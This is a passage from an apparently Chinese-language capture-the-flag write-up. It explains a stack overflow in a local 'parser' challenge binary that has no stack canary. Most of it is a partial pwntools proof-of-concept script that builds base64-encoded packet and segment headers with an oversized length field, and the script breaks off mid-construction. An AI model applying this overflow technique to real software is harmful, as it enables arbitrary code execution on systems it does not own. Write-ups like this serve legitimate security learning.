 ```c
```

### 利用

于是可以在 `main` 中 `v4` 变量造成栈溢出，没开 canary。实际上如果 cnt 为 1，它虽然不会走到 `parse_and_run` 但是已经导致了栈溢出。当然，输入多个 segment 也行。

PoC 如下。至此，我们达到了用户态任意代码执行的目标。

```python

import base64
import sys

sys.path.append('/home/x1do0/.local/lib/python3.8/site-packages')
sys.path.append('/home/x1do0/.local/lib/python3.8/site-packages/unicornafl-1.0.3-py3.8.egg')

print(sys.path)


from pwn import *

context(arch = 'amd64', os = 'linux', endian = 'little')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h', '-p', '75']

def SEND(io, con):
    io.send(base64.b64encode(con))


io = process("./parser")

# input()
# gdb.attach(io, "b *0x401B22")

for i in range(15):
    io.sendafter("ENTER YOUR PACKET > ", '\n')

io.recvuntil("ENTER YOUR PACKET > ")

### pakcet_hdr 0 - 0x30

packet_hdr = p32(0xAAA) + p32(1)
packet_hdr += p64(0)
packet_hdr += p32(0x877) # a1[4]
packet_hdr += p32(0x796f15c9) # crc32
packet_hdr = packet_hdr.ljust(0x30, b'\x00')


SEND(io, packet_hdr)

### segment_hdr 0x30 - 0x38

cnt = 1
segment_hdr = p32(cnt) + p32(0) # a1[:30]

SEND(io, segment_hdr)

### segment 0x38 - 


### header 8 bytes
size = 0xf0000000
segment = p32(0) + p32(size)
```